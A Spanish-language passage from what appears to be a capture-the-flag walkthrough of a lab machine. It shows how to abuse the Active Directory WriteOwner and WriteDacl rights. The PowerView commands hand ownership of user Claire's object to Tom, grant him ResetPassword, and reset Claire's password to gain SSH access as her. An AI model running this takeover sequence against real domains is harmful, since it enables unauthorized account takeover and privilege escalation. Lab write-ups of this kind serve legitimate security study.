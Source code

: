`WriteDacl` permite a un usuario modificar la **DACL** de un objeto. En este contexto, **podría permitir a Claire agregarse a sí misma al grupo Backup_Admins**.

El grupo **Backup_Admins** parece ser significativo. Su asociación con operaciones de respaldo y administración sugiere que puede tener **privilegios especiales sobre el dominio**. Esta pista, junto con los privilegios recién descubiertos, indica una ruta de escalada de privilegios que vale la pena explorar.

#### Explotando el Privilegio WriteOwner: Cambiando la Contraseña de Claire

El proceso para explotar la ACL `WriteOwner` y c**ambiar la contraseña del usuario Claire** consta de varios pasos. Se llevará a cabo utilizando la herramienta PowerView.ps1, que ya se encuentra en el sistema en la ruta `C:\Users\tom\Desktop\AD Audit\BloodHound\PowerView.ps1`.

En primer lugar, es necesario cambiar a la terminal de PowerShell. Esto se realiza con el simple comando `powershell`. 

Una vez en PowerShell, se importa el módulo PowerView.ps1:

```powershell
import-module .\PowerView.ps1
```

Ahora que se ha importado el módulo, se puede comenzar a explotar el privilegio `WriteOwner`. Para ello, se sigue la siguiente secuencia de comandos. 

En primer lugar, se configura a Tom como el propietario del objeto de dominio asociado a Claire. 

```powershell
Set-DomainObjectOwner -identity claire -OwnerIdentity tom
```

A continuación, se agrega a Tom a la lista de control de acceso (ACL) de Claire. Esto le otorgará a Tom el derecho de restablecer la contraseña de Claire.

```powershell
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
```

Luego, se genera una cadena segura que contiene la nueva contraseña para Claire. En este caso, se ha optado por la contraseña "fran123$!".

```powershell
$cred = ConvertTo-SecureString "fran123$!" -AsPlainText -force
```

Finalmente, se utiliza la cadena segura generada para cambiar la contraseña de Claire.

```powershell
Set-DomainUserPassword -identity claire -accountpassword $cred
```

Resultado de la ejecución de los comandos anteriores:

![imagen 2](Pasted image 20230802135721.png)

#### Acceso SSH como Claire

Una vez que la contraseña de Claire ha sido cambiada, es posible obtener una **shell como este usuario a través de SSH**. Esto se hace de la misma manera que se hizo con el usuario Tom, utilizando el comando `ssh claire@10.10.10.77`. Al ingresar la nueva contraseña cuando se solicite, se obtendrá acceso a la máquina como el usuario Claire:
